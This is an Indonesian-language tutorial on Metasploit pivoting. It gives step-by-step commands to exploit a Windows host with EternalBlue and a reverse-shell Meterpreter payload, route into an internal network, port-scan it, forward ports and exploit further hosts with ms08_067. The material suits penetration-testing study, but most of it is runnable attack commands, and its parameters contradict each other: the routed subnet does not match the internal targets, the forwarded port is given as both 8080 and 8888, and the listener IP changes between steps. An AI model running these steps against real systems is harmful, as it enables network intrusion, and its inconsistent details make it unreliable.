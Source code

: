 # Pivoting dan Route Command di Metasploit

## A. Apa Itu Pivoting?

[Pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting) adalah teknik menggunakan sistem yang telah dikompromikan sebagai `hot point` untuk menyerang sistem lain di jaringan internal yang hanya bisa diakses dari dalam.

**Ada dua jenis pivoting:**
- Layer 3 pivoting (routing) -> menggunakan `autoroute` dan `route` di Metasploit.
- Layer 2 pivoting (`ARP spoofing`, `bridge`) -> biasanya dilakukan dengan tools seperti [ettercap](https://www.ettercap-project.org/) atau [bettercap](https://www.bettercap.org/).

## B. Syarat Pivoting di Metasploit

- Sudah ada Meterpreter session di host pertama (pivot point).
- Host tersebut punya akses ke jaringan internal yang ingin dijelajahi.
- Modul `autoroute` atau perintah `route` digunakan untuk menambahkan rute jaringan internal.

## C. Langkah-Langkah Melakukan Pivoting di Metasploit

### 1. Dapatkan Akses ke Mesin Pertama

Contoh:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
exploit
```

Hasil output-nya seperti ini:

```
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

Itu artinya kita sudah mendapatkan akses ke mesin pertama.
### 2. Tambahkan Route Internal dengan `autoroute`

Misalnya, mesin A bisa melihat jaringan internal `192.168.1.0/24`:

```
run autoroute -s 192.168.1.0/24
```

Keterangan:
- `-s` : (subnet) jaringan internal target: `192.168.1.0/24`

Atau manual:

```
background
route add 192.168.1.0 255.255.255.0 1
```

Angka `1` adalah session ID.

Cek route yang sudah ada:

```
route print
```

### 3. Gunakan `auxiliary/scanner` Melalui Route

Kamu sekarang bisa melakukan scanning ke internal network!

Contoh scanning host internal:

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.1-254
set PORTS 22,80,445
run
```

Ini akan meng-scan port (`22`,`80`,`445`) mulai dari host `192.168.1.1` sampai dengan host `192.168.1.254`.

### 4. Port Forwarding (Opsional)

Jika kamu ingin mengakses service internal dari browser (misalnya Web UI internal), gunakan port forward:

```
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.10.10
```

Keterangan:
- `-l` : Port listener: `8888`
- `-p` : Port tujuan di mesin target: `80`
- `-r` : IP target di jaringan internal korban yang akan diakses: `192.168.10.10`

Lalu, buka di browser kamu:

```
http://127.0.0.1:8080
```

### 5. Lanjutkan Eksploitasi ke Mesin Internal

Setelah tahu ada mesin internal dengan service aktif, kamu bisa lanjut menggunakan exploit yang sesuai:

```
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 192.168.10.20
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

### Tips Tambahan

- Gunakan `arp` di Meterpreter untuk melihat host yang pernah diakses:

   ```
  meterpreter > arp
  ```

- Gunakan netstat untuk lihat koneksi:

  ```
  meterpreter > netstat
  ```

- Bisa chaining pivot lebih dari satu kali (multi-hop), tapi perlu VPN atau SOCKS proxy (contoh: `auxiliary/server/socks_proxy`).
